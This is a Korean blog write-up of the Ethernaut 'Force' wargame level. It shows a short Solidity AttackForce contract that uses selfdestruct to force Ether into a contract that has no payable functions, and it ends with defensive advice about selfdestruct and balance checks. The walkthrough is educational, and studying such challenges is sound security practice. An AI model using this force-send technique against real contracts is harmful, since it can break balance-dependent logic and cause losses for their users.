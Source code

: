 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 7) Force
date: '2022-01-09 18:31:00'
author: 한성원
tags: ethernaut Force vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Force contract의 balance를 0보다 크게 만든다면 승리한다.

- - -

## 코드 분석
분석은 주석에!

```solidity
// 코드가 없다...? 롸...? 이것은 무엇인가....
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
- - -
### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Force는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 Force contract의 balance를 0을 초과하게 만드는 것이다.

코드가 없는데 어떻게 Ether를 보내라는 것인가 싶었다.

하지만 contract에 강제로 보낼 수 있는 방법이 존재한다!

바로 [selfdestruct](https://holyhansss.github.io/vulnerability/selfdestruct/selfdestruct/)이다. <= Click selfdestruct 

selfdestruct의 개념을 안다면 이 문제는 매우 쉽게 풀릴 수 있다.

우리가 Force의 balance를 0을 넘게하기 위한 시나리오는 이렇다.
1. ForceAttack contract에 selfdestruct을 사용하는 function과 value를 조금 넣어 deploy한다.
2. Deploy한 contract에서 selfdestruct를 실행시킨다. selfdestruct의 parameter는 Force contract의 주소이다.
3. Force contract는 강제로 Ether를 받게된다.

주석을 통해 ForceAttack contract를 같이 분석 해보자!
최대한 간단하게 만들어보았다.
```solidity
contract AttackForce {
    // payable을 사용해 Ether를 받을 수 있게 한다.
    constructor () public payable{}
    
    // Force contract의 주소를 넣어 selfdestruct한다.
    function attack(address payable _forceAddress) public {
        selfdestruct(_forceAddress);
    }
}
```
이 코드는 remix IDE에서 만들고 배포한다. 배포할때 value를 0을 초과하게 설정해준다. 이후 Force의 주소와 함께 attack() 실행해주면 공격이 완료된다.

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
selfdestruct는 항상 조심해야한다. attacker를 통해 공격을 받는 경우도 있지만 contract안에 selfdestruct를 사용하고 실수하여 문제가 일어난 적도 있다. 그렇기 때문에 selfdestruct를 꼭 필요할때 이외에는 사용을 피해보자! 또한 address(this).balance와 같이 selfdestruct에 의해 공격받을 수 있는 것은 사용을 피하도록하자.

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- selfdestruct 취약점: https://holyhansss.github.io/vulnerability/selfdestruct/selfdestruct/

```toc

```
